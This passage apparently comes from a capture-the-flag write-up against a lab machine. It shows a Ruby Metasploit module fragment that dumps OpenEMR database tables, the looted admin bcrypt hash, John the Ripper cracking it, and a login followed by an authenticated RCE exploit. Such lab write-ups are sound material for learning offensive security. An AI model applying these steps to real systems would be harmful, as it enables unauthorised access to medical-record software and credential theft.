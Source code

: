         # These tables are impossible to fetch because they increase each request
        skiptables = %w[form_taskman log log_comment_encrypt]
        tables.each_with_index do |table, i|
          if skiptables.include?(table)
            print_status("Skipping table (#{i + 1}/#{num_tables}): #{table}")
          else
              if i == 290
                print_status("Dumping table (#{i + 1}/#{num_tables}): #{table}")
                table_data = walk_table(table)
                save_csv(table_data, table)
            end
          end
        end
        print_status("Dumped all tables to #{Msf::Config.loot_directory}")
      end

We rerun our module and get the looted data, this time we have the username and
a password hash!

    :::text
    kali@kali:~/$ cat /home/kali/.msf4/loot/20200516080433_default_10.10.10.188_openemr.users_se_390635.csv
    id,username,password,salt,last_update,password_history1,salt_history1,password_history2,salt_history2
    1,openemr_admin,$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.,$2a$05$l2sTLIG6GTBeyBf7TAKL6A$,2019-11-21 06:38:40,"","","",""

We load the has inside `john` the ripper and quickly get the password `xxxxxx`.

    :::text
    $ john hash
    Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
    Use the "--format=bcrypt-opencl" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
    Cost 1 (iteration count) is 32 for all loaded hashes
    Will run 8 OpenMP threads
    Proceeding with single, rules:Single
    Press 'q' or Ctrl-C to abort, almost any other key for status
    Almost done: Processing the remaining buffered candidate passwords, if any.
    Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
    xxxxxx           (?)
    1g 0:00:00:00 DONE 2/3 (2020-05-16 14:07) 4.347g/s 5008p/s 5008c/s 5008C/s stinky..88888888
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed

We can now connect on OpenEMR using our credentials `openemr_admin:xxxxxx`.

![OpenEMR authenticated](/media/2020.10/cache_06.png)

We then fireup the authenticated exploit for openEMR found previously. At the
same time we start a simple Python HTTP server in order to check our RCE. It
works.
